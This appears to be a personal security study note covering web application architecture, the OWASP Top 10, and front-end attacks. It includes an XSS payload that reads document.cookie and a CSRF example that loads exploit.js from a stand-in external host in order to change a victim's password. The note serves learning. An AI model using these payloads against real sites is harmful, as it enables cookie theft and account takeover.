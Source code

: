 
# Web Application Layout

three main categories:
- Web Application Infrastructure: 
	-  `Client-Server`
	-  `One Server`
	-  `Many Servers - One Database`
	-  `Many Servers - Many Databases`
- Web Application Components: 
	1.  `Client`
	2.  `Server`
	    -   Webserver
	    -   Web Application Logic
	    -   Database
	3.  `Services`  (Microservices)
	    -   3rd Party Integrations
	    -   Web Application Integrations
	4.  `Functions`  (Serverless) 
- Web Application Architecture: three layers
	- Presentation Layer: frontend
	- Application Layer: backend
	- Data Layer: database
# [OWASP Top 10](https://owasp.org/www-project-top-ten/) vulnerabilities
1. Broken Access Control
2. Cryptographic Failures 
3. Injection
4. Insecure Design
5. Security Misconfiguration
6. Vulnerable and Outdated Components
7. Identification and Authentication Failures
8. Software and Data Integrity Failures
9. Security Logging and Monitoring Failures
10. Server-Side Request Forgery (SSRF)
# FrontEnd 
## Cross-Site Scripting (XSS)
- **3 types**: `Reflected XSS`, `Stored XSS`, `DOM XSS`
```javascript
#"><img src=/ onerror=alert(document.cookie)>
```
## Cross-Site Request Forgery (CSRF)
- caused by unfiltered user input
- **common `CSRF` attack:** 
	- gain admin priv
	- craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker.
	 
```html
"><script src=//www.example.com/exploit.js></script>
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTIxMzkzNzg1NjAsMTk2NTg1Njg2Ml19
-->